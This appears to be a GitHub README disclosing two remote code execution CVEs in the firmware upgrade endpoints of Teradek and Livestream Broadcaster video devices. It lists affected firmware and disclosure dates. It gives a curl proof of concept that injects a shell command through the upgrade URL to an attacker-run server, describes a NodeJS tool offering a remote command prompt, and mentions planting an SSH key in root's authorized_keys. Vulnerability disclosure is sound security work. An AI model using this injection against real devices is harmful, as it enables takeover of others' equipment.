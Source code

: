 # [CVE-2020-27685](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-27685) - Teradek devices upgrade Remote Code Execution
The endpoint to upgrade a Teradek Device has an option to pass along a http url to download the firmware. The Upgrade endpoint performs a curl/wget request without sanitizing the http url being provided. On the Teradek devices you can set up a login feature to allow only authenticated users upgrade but by default it's not enabled. Originally disclosed to Teradek on October 18th 2019 at 9:53 AM EST.

## Effected device firmwares
* BoltManager - 1.0.5 (Uncertain)
* Bond II (Legacy) - 7.3.14 (EOL)
* Bond Pro (Legacy) - 7.3.14, 7.3.17 (EOL)
* Brik - 7.22 (EOL)
* Colr - 1.2.11 (Pending)
* Clip - 1.1.3 (EOL)
* Cube - 7.3.14 (EOL)
* Cube Pro - 7.3.14 (EOL)
* Slice 600/700 - 8.2.7 (Patched)
* Cube 600/700 - 8.2.7 (Patched)
* Bond 600/700 - 8.2.7 (Patched)
* OMOD - 1.2.10 (Uncertain)
* ServPro - 2.1.4 (Pending)
* Slice - 7.3.14 (EOL)
* Sphere - 1.1.0 (EOL)
* T-Rax - 1.3.5 (Pending)
* T-Rax 700 - 8.2.7 (Patched)
* Vidiu - 3.0.8 (EOL)
* Vidiu Mini - 3.0.8 (EOL)
* Vidiu Go - 3.1.7 (Patched)
* Vidiu Pro - 3.1.7 (Patched)

# [CVE-2020-27686](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-27686)  - Livestream Broadcaster devices upgrade Remote Code Execution
Similar to the Teradek upgrade RCE the broadcaster series of devices suffer from the same vulnability but there isn't a way to add authenication to the device to mitigate a bit. Also the Livestream Broadcaster devices have an SSH server enabled which with exploiting you are able to append your own SSH public key to `/root/.ssh/authorized_keys` and login to the device remotely. Orignally disclosed to Livestream/Vimeo on October 17th 2019 at 7:09 PM EST.

## Effected device firmware
* Livestream Broadcaster - 2.1.6
* Livestream Broadcaster Mini - 2.1.6
* Livestream Broadcaster Pro - 2.1.6

# Basic proof of concept
Change the IP address of `172.16.1.1` to the one of the device and the IP Address `172.16.1.5` to one of your attacking device with a HTTP server listening for connections.

NOTE: The following proof of concept doesn't take in count of the authentication of Teradek devices, didn't add due to not having a device to test on.
```
curl -X POST \
'http://172.16.1.1/cgi-bin/upgrade.cgi' \
-d "type=http&uploadfile=http://172.16.1.5:8000/%24%28whoami%29"
```
# Prompted proof of concept
This is a NodeJS proof of concept that sets up a http server then listens for connections and gives you a prompt to send commands to the device.
## Install
First you would need to install the node packages the proof of concept uses.

```
$ npm install
```

## Running proof of concept
Before running the PoC please open `poc.js` to configure the exploit. The proof of concept preps the device so it's possible to run commands remotely by setting the device in preupgrade mode. Afterwards a prompt will be given to run commands.

```
$ node poc.js
```
